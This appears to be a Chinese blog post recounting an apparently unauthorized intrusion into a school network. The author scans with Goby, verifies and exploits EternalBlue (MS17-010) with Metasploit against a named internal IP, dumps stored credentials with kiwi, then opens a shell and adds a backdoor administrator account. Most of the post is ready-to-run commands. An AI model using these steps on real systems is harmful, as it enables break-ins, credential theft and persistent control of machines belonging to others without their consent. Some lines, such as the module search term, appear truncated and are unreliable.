




# 校园网初步尝试

# 渗透的过程

## 通用`POC`扫描



我这里使用的是`GOBY`来进行的扫描，学校果然够懒，包含一个永恒之蓝的漏洞（2017年前的电脑没打补丁就会有）

## 验证永恒之蓝

我在Windows上装了个`metasploit-framework`，然后启动`msfconsole`



检索一下永恒之蓝

```
search _010
```



`auxilliary`是辅助模块专门用来验证的

`exploit`是重现模块，如果成功可以直接拿到目标机最高权限

我先尝试使用第三个进行验证

```
use 3
```



然后查看需要配置的参数

```
show options
```


看到那个`required` `yes`部分还有一个`rhosts`需要填写

补全需要的信息

```
set rhost 10.16.191.10
```

然后`run`


看到那个绿色的`[+]`了吗？他说：存在永恒之蓝漏洞

同时能使用也就是说明那台电脑没有开防火墙

## 复现漏洞

我们使用第一个

```
use 1
```

和刚才一样查看一下需要配置的信息

```
show options
```

同样是需要配置对方主机`ip`

```
set rhost 10.16.191.10
```

然后`run`

## 后续操作

查看用户密码

```
load kiwi
creds_all
```


获取`shell`然后新建用户然后添加管理员

```
shell
net user name password /add
net localgroup administrators name /add
```

